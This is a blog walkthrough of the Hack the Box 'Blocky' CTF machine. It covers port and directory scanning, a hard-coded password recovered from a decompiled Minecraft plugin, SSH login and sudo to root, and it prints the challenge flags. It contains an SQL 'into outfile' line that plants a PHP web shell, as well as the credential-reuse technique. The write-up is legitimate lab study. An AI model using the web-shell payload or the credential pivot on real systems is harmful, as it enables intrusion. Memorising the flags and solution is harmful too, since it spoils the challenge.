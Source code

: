 ```yaml
---
title: Blocky, Hack the Box CTF Walkthrough
description: 
tag: CTF
style: blog3
image: /assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blocky.png
layout: post
description: "Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by Arrexel and consists of a linux machine configured as a Minecraft and wordpress server"
date:   2021-03-29 20:01:21 -0400
last-updated: 2021-03-29 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Using the Java Decompiler to Analyze Source Code"
card: card-2
navheader: posts
---
```


Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by [Arrexel](https://app.hackthebox.eu/users/2904), the challenge consists of a linux machine configured as a Minecraft and wordpress server. It is easy to get carried away on this challenge, especially with poking at the wordpress and minecraft server, but once the user is compromised, escalation to root is trivial. My biggest takeaway from this CTF is to expand my basic directory brute force strategy to gaurentee a greater chance of discovery. 

## Major Takeaway's 
1) Don't reply on a simple `dirb` scan to brute force server directories   
2) Ensure to test username/password pairs on multiple services 


# Basic Enumeration 

To start, I used a simple <kbd>nmap</kbd> scan to look for running services and open ports. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sV -A -O -p- 10.10.10.37                                                                                                                                     1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 14:31 EDT
Nmap scan report for 10.10.10.37
Host is up (0.029s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   31.60 ms 10.10.14.1
2   31.65 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.01 seconds
```

The resulting scan shows several running processes. I did some basic research on each service version to check for known vulnerabilities. At first, it seemed that the ProFTPD server might be vulnerable to the `mod_copy` exploit described in CVE-2015-3306. After trying a couple different PoC exploits, the target did not seem vulnerable so I moved on. Using `gobuster`, I searched for directories on the host. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.10.37 -w /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/30 14:42:00 Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/] 
```

The resulting output indicated the /plugins directory, which when browsed, showed a custom plugin called BlockCore.jar. I downloaded the file and used the java decompiler tool `jd-gui` to inspect the classes. The class blockycore uses a hard-coded username and password, root:8YsqfCTnvxAUeduzjNSXe22.


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blockycore.png">
    </div>
</div>
<br/>  


# Compromise User

With a pair of found credentials, I attempted to access the wordpress site with no luck. Eventually I found that I could use the credentials to log into the phpmyadmin instance. As administrator of phpmyadmin, I was sure I could pivot to gain access to the machine. I attempted to create a new user account for the wordpress site, change the current "notch" user's password, and even upload a reverse shell using direct sql commands. None of these options worked, however a technique I came across described by Ryan Trost in the book "Practical Intrusion Analysis: Prevention and Detection for the Twenty-First Century: Prevention and Detection for the Twenty-First Century" was fairly interesting. It involves injecting  SQL command to insert a backdoor php file, 

```SQL
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/var/www/html/cmd.php”;
``` 

In this instance, this method was blocked by insufficient file permissions, but I will be sure to consider this on future challenges. Ultimately, I was able to get root by attempting to log into the ssh service with the notch user and the admin credentials found in the jar file. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ 
```
## User Flag

```bash
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$ 
```

## Compromise Root 

I instinctively tried to sudo to root, and was suprised when the notch user had permissions to do so. As root, I read the final flag. 

```bash
notch@Blocky:~$ sudo su root
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
root@Blocky:/home/notch# cat ../../root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch# 
```